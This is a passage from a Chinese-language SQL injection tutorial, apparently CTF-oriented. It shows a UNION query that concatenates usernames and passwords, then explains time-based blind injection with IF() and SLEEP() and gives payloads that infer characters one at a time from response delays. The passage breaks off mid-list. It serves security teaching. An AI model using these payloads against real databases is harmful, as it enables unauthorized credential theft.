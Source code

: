   ```sql
  SELECT username,password FROM users WHERE id = 1 union select CONCAT(username,'-',password),1 from users;
  ```

  ![image-20230504221859903](https://nssctf.wdf.ink//img/WDTJ/202305042218959.png)

  而在盲注中，我们通常用其的连接功能减少查询跳转。

#### 时间盲注

其实和布尔差不多，只不过是利用SQL语句的执行时间来判断SQL语句的真假，从而逐步推断出数据库中的数据。

下面是一些常用函数 和使用技巧：

- `IF()`

  `IF()`函数是一种条件判断函数，它用于判断指定条件是否成立，并根据判断结果返回不同的值.

  ```sql
  IF(condition, value_if_true, value_if_false)
  ```

  其中，`condition`表示要判断的条件，`value_if_true`表示条件成立时要返回的值，`value_if_false`表示条件不成立时要返回的值。如果条件成立，`IF()`函数将返回`value_if_true`，否则将返回`value_if_false`

- `SLEEP()`

  `SLEEP()` 函数是时间盲注的核心，其语法为 `SLEEP(seconds)`

  当语句被执行时，程序将会暂停指定秒数，比如下面的例子：

  通常 `IF` 和 `SLEEP` 两函数会一起使用

  ```sql
  SELECT * FROM users WHERE username='admin' AND IF(SLEEP(5),1,0)
  ```

  如果数据库中不存在用户名为`admin`的用户，那么该语句将会立即返回结束；否则，程序将会暂停5秒钟后再返回结果。

  同样我们使用我们的demo语句，`SELECT username,password FROM users WHERE id =`来演示：

  - 利用延时函数，如`SLEEP()`函数或者`BENCHMARK()`函数，来判断是否注入成功。

  ```sql
  SELECT username,password FROM users WHERE id = 1 AND IF(ASCII(SUBSTR(username,1,1))=97,SLEEP(5),0)
  ```

  如果用户表中的第一个用户名字符为字母`a`，则程序会暂停5秒钟，否则返回0。

  - 利用时间戳

  可以利用数据库中的时间戳函数，如`UNIX_TIMESTAMP()`函数来构造延时语句，如：

  ```sql
  SELECT username,password FROM users WHERE id = 1 AND IF(UNIX_TIMESTAMP()>1620264296,SLEEP(5),0)
  ```

  上述SQL语句的意思是：如果当前时间戳大于`1620264296`，则程序会暂停5秒钟，否则返回0。

  - 利用函数返回值
